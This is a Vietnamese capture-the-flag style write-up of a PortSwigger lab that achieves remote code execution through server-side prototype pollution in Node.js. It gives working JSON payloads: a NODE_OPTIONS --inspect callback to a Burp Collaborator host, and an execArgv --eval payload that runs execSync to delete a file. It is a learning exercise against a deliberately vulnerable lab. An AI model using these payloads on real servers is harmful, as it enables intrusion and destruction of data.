# Writeup LAB Remote code execution via server-side prototype pollution

## Goal
Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`
## Khai thác Thực thi mã từ xa thông qua việc làm ô nhiễm nguyên mẫu phía máy chủ
Theo tài liệu PortSwigger: <br>
> Trong khi việc làm ô nhiễm nguyên mẫu phía máy khách thường khiến trang web dễ bị tổn thương trước lỗ hổng DOM XSS, thì việc làm ô nhiễm nguyên mẫu phía máy chủ có thể dẫn đến thực thi mã từ xa (RCE). <br>
> Trong Node.js có một số điểm thực thi lệnh tiềm năng, nhiều điểm trong số đó nằm module `child_process`. Chúng thường được yêu cầu bởi một yêu cầu xảy ra không đồng bộ với yêu cầu chúng ta để làm ô nhiễm nguyên mẫu <br>
> Biến môi trường `NODE_OPTIONS` cho phép chúng ta định nghĩa một chuỗi các đối số dòng lệnh sẽ được sử dụng mặc định mỗi khi chúng ta khởi tạo một tiến trình Node mới. Một số hàm của Node dùng để tạo tiến trình con mới chấp nhận thuộc tính `shell`, cho phép nhà phát triển thiết lập shell cụ thể <br>
Trang chủ

Thực hiện đăng nhập tài khoản `wiener:peter` và thực hiện submit biểu mẫu của tài khoản wiener

Lịch sử HTTP Burp chúng ta có thể thấy tài khoản `wiener` được set thẳng quyền quản trị viên

Chúng ta cùng thực hiện gây ra một ô nhhieemx nguyên mẫu bất kỳ xem thử: <br>
Tải trọng:
```json
"__proto__":{
    "foo": "bar"
}
```
Chúng ta có thể thấy chúng ta đã gây được ô nhiễm nguyên mẫu ghi đè thuộc tính

Bằng cách này chúng ta có thê tạo thuộc tính `NODE_OPTIONS` độc hại, có thể làm ô nhiễm prototype theo cách gây tương tác với Burp Collaborator mỗi khi một tiến trình Node mới được tạo: <br>
Tải trọng:
```json
"__proto__":{
    "shell":"node",
    "NODE_OPTIONS":"--inspect=6y5noolgxdusqm8mg0aduem2qtwkkb80.oastify.com\"\".oastify\"\".com"
}
```

Thực hiện nhấp lện run trnag quản trị 

Lúc này chúng ta có thể thấy server Burp Collab đã nhận được tương tác DNS bên ngoài 

Vì tiện ích này cho phép bạn trực tiếp điều khiển các đối số dòng lệnh, điều này cung cấp cho bạn quyền truy cập vào một số phương thức tấn công mà không thể thực hiện được bằng cách sử dụng các công cụ khác `NODE_OPTIONS`. Đặc biệt đáng chú ý là `--eval` đối số , cho phép bạn truyền vào mã JavaScript tùy ý sẽ được thực thi bởi tiến trình con. Điều này có thể khá mạnh mẽ, thậm chí cho phép bạn tải thêm các mô-đun vào môi trường: <br>
```json
    "execArgv": [
        "--eval=require('<module>')"
    ]
```
Và chúng ta đã thành công việc bây giờ kích hoạt xóa tệp bằng tải trọng cuối cùng <br>
```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

Quay lại tác vụ trigger job của admin và thực hiện lúc này đã thành công và tệp đã bị xóa

